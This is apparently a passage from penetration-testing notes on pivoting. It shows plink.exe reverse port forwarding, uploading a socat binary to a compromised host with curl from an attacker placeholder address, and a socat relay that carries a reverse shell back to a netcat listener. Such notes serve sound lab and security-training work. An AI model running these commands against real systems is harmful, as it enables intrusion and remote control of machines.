 Find the process ID (PID) of the connection and use `sudo kill PID` to close the connection.

#### plink.exe

**plink.exe** is a Windows command-line version of PuTTY.  Generally, Windows servers are unlikely to have SSH access to plink is used to transfer binaries to the target and then create a reverse connection.

```console
> cmd.exe /c echo y | .\plink,exe LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

`cmd.exe /c echo y` is for non-interactive shells

E.g., if we have access to `172.16.0.5` and want to forward a connection to `172.16.0.10:80` back to port `8000` on our attacking machine (`172.16.0.20`):

```console
> cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

Note, keys generated via `ssh-keygen` will not work as they must be converted:

```console
> puttygen KEYFILE -o OUTPUT_KEY.ppk
```

The `.ppk` file can then be transferred to the Windows target via reverse port forwarding

#### Socat

Socat can also be used for port forwarding as well as stabilising shells.  However, it is rarely installed on a target, but static binaries can be found for [Linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat) and [Windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download).  Socat can also be used as a relay if you cannot get a connection directly from a compromised machine.

First, a binary must be uploaded to the compromised machine if not already installed:

```console
# on the attacker machine:
$ sudo python3 -m http.server 80

# on the target:
$ curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

###### Reverse Shell Relay

Here, socat creates a relay to send a reverse shell back to the attacker machine:

```console
# attacker machine
$ sudo nc -lvnp 443

# target machine
$ ./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```
